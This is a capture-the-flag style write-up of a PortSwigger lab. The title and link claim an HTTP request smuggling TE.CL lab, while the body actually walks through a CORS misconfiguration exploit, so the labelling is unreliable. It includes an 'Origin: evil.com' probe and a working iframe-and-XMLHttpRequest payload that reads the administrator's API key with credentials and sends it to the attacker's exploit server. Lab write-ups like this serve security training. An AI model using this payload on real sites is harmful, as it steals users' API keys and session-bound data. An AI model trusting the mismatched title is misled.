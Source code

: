 # Write-up: HTTP request smuggling confirming a TE.CL vulnerability via differential responses

Lab-Link: <https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses>  
Difficulty: PRACTITIONER  
  

## Lab description

![lab_description](img/1.png)

### Goals

- Create a malicious JS code:
    - which can retreive the administrator's API key
    - and sends it to exploit server

## Steps

Firstly, login into the website using given credentials `wiener:peter` and intercept the request while login.

![login_page](img/2.png)

We can see the request for url `/accountDetails` whose respone contains the API key.

![api_req](img/6.png)

Now, if we send the request with some malicious looking origin like `Origin: evil.com`, we still get successful response with header `Access-Control-Allow-Origin: evil.com`. This confirms that the application is allowed to be access from any origin.

![cors_poc](img/7.png)

Now, this javascript code will:
1. call the `/accountDetails` page
2. fetches the API key
3. issues a request to the exploit server containing the value

```js
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0ab800f604b3156b81fa8921009c00d3.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>"></iframe>
```

Now, Go to exploit server and paste the code and "Deliver the exploit to victim".

![exploit_code](img/3.png)

After checking the "Access log" from exploit server we can see the administrator's API Key

![api_key](img/4.png)

We can now submit this API key of administrator.

Hence, lab is solved.

![success](img/5.png)
